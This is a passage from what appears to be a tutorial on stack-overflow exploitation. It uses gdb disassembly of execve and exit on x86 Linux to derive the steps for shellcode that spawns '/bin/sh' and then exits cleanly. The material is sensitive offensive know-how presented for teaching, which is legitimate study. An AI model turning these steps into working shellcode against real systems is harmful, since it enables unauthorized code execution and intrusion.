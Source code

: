 	Copy the address of "/bin/sh" into EBX.

0x80002c8 <__execve+12>:        movl   0xc(%ebp),%ecx

	Copy the address of name[] into ECX.

0x80002cb <__execve+15>:        movl   0x10(%ebp),%edx

	Copy the address of the null pointer into %edx.

0x80002ce <__execve+18>:        int    $0x80

	Change into kernel mode.
------------------------------------------------------------------------------

So as we can see there is not much to the execve() system call.  All we need
to do is:

	a) Have the null terminated string "/bin/sh" somewhere in memory.
	b) Have the address of the string "/bin/sh" somewhere in memory
	   followed by a null long word.
	c) Copy 0xb into the EAX register.
	d) Copy the address of the address of the string "/bin/sh" into the
	   EBX register.
	e) Copy the address of the string "/bin/sh" into the ECX register.
	f) Copy the address of the null long word into the EDX register.
	g) Execute the int $0x80 instruction.

   But what if the execve() call fails for some reason?  The program will
continue fetching instructions from the stack, which may contain random data!
The program will most likely core dump.  We want the program to exit cleanly
if the execve syscall fails.  To accomplish this we must then add a exit
syscall after the execve syscall.  What does the exit syscall looks like?

exit.c
------------------------------------------------------------------------------
#include <stdlib.h>

void main() {
        exit(0);
}
------------------------------------------------------------------------------

------------------------------------------------------------------------------
[aleph1]$ gcc -o exit -static exit.c
[aleph1]$ gdb exit
GDB is free software and you are welcome to distribute copies of it
 under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(no debugging symbols found)...
(gdb) disassemble _exit
Dump of assembler code for function _exit:
0x800034c <_exit>:      pushl  %ebp
0x800034d <_exit+1>:    movl   %esp,%ebp
0x800034f <_exit+3>:    pushl  %ebx
0x8000350 <_exit+4>:    movl   $0x1,%eax
0x8000355 <_exit+9>:    movl   0x8(%ebp),%ebx
0x8000358 <_exit+12>:   int    $0x80
0x800035a <_exit+14>:   movl   0xfffffffc(%ebp),%ebx
0x800035d <_exit+17>:   movl   %ebp,%esp
0x800035f <_exit+19>:   popl   %ebp
0x8000360 <_exit+20>:   ret
0x8000361 <_exit+21>:   nop
0x8000362 <_exit+22>:   nop
0x8000363 <_exit+23>:   nop
End of assembler dump.
------------------------------------------------------------------------------